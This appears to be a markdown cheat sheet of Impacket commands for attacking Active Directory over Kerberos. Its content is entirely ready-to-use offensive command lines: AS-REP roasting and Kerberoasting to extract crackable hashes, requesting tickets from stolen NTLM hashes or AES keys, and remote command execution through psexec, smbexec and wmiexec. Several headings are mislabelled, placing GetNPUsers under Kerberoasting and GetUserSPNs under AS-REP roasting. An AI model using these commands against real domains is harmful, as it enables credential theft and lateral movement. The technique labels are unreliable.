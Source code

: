 ## Check for Kerberoasting: 

- GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

## GetUserSPNs

ASREPRoast:
- impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
- impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

Kerberoasting: 
- impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

Overpass The Hash/Pass The Key (PTK):

- python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
- python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
- python3 getTGT.py <domain_name>/<user_name>:[password]

## Using TGT key to excute remote commands from the following impacket scripts:

- python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
- python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
- python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

